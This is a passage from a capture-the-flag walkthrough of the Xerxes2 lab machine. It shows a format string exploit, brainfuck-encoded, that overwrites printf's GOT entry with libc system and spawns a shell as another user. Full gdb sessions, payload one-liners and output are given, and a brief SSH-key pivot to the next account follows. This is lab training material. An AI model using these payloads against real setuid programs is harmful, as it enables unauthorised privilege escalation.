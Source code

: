 As you can see, we have moved up 4 bytes on the lower part of the address, so we can simply take 4 off 8188 to fix that. To determine the upper part of the address though, we will do another hex calculation and remove the amount that we have from the amount that we want:

```bash
(gdb) shell echo $(python -c 'print 0x4006-0x2000')
8198 # output is a decimal value

(gdb) run "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "\x4a\x9a\x04\x08" + "%8184u%16$n" + "%8198u%17$n")])')#"
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "\x4a\x9a\x04\x08" + "%8184u%16$n" + "%8198u%17$n")])')#"
H�J�
Breakpoint 1, 0x080486eb in main ()
(gdb) x/x 0x08049a48
0x8049a48 <printf@got.plt>: 0x40062000
(gdb)
```

w00t. We have rewritten the GOT for `printf` to the location of the libc `system` call using the format string vulnerability. Phew.

### /opt/bf - part5

Now, all that is left is to get the `printf` to rerun (using the `#`) with a payload such as `/bin/sh`. We will append the `/bin/sh` to the end and just add another `#` to call `printf` (which is now overridden):

```bash
delacroix@xerxes2:~$ /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "\x4a\x9a\x04\x08" + "%8184u%16$n" + "%8198u%17$n" + ";/bin/sh")])')##"
H�J�                                                                                                                                                                                                              d
$ id
uid=1002(delacroix) gid=1002(delacroix) euid=1001(polito) egid=1001(polito) groups=1001(polito),1002(delacroix)
$
```

Oly. Crap. That. Was. Awesome. :D :D

We have just exploited a format string vulnerability on a binary that has the NX bit set, encoded with brainfk using ret2libc.

## becoming korenchkin
We just got a shell with a euid for `polito`. To make life easier, I copied the public key I generated earlier for the first shell into `polito`'s home, and SSH'd in as that user.

At first glance, it appeared as if we have a gpg encrypted `dump` and a pdf. There was also a cronjob to start a netcat server piping a text file out via tcp/4444 (remember the mp3 form earlier? :D)
